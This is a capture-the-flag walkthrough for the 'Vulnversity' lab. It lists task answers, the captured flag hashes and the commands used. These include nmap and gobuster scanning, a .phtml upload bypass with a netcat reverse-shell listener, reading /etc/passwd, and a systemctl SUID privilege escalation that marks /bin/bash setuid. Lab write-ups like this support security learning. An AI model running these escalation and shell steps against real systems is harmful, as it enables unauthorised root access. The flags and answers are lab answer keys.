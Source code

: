 # Vulnversity

### TASK 1 
DEPLOY MACHINE
IP: 10.10.82.47

### TASK 2 

1. Scan the box, how many ports are open?
 - 6
 > nmap -sC -sV -oN nmap/initial 10.10.82.47

2. What version of the squid proxy is running on the machine?
 - 3.5.12

3. How many ports will nmap scan if the flag -p-400 was used?
 - 400

4. Using the nmap flag -n what will it not resolve?
 - DNS

5. What is the most likely operating system this machine is running?
 - Ubuntu

6. What port is the web server running on?
 - 3333

### TASK 3 - Locating Directories with GoBuster

1. What is the directory that has an upload form page?
 - /internal/
 > gobuster dir -u http://10.10.82.47:3333 -w /usr/share/wordlists dirb/common.txt -o gobuster/initial

### TASK 4 - Compromise the Webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?
 - .php

2. Run this attack, what extension is allowed?
 - .phtml

Listening for reverse-shell
>nc -lvnp 4444

Stabilize Shell
> python -c "import pty; pty.spawn('/bin/bash')"
> ctrl-z (background shell)
> stty raw -echo
> press enter
> fg (to re-foreground original shell)
> press enter couple times
> export TERM=xterm

3. What is the name of the user who manages the webserver?
Bill

> cat /etc/passwd

4. What is the user flag?
8bd7992fbe8a6ad22a63361004cfcedb

> cd /home/bill
> cat user.txt

### TASK 5 - Privilage Escalation

1. On the system, search for all SUID files. What file stands out?
/bin/systemctl

> find / -perm -4000 2>/dev/null
    > NOTE: 2>/dev/null - this redirects std error to null

2. Become root and get the last flag (/root/root.txt)
a58ff8579f0a9270368d33a9966c7fd5

> GTFObins (modified the "chmod +s /bin/bash" as that will privesc on bash)

> TF=$(mktemp).service
  echo '[Service]
  Type=oneshot
  ExecStart=/bin/sh -c "chmod +s /bin/bash"
  [Install]
  WantedBy=multi-user.target' > $TF
  /bin/systemctl link $TF
  /bin/systemctl enable --now $TF

> /bin/bash -p (this runs bash with current privilages)
> cd /root
> cat root.txt

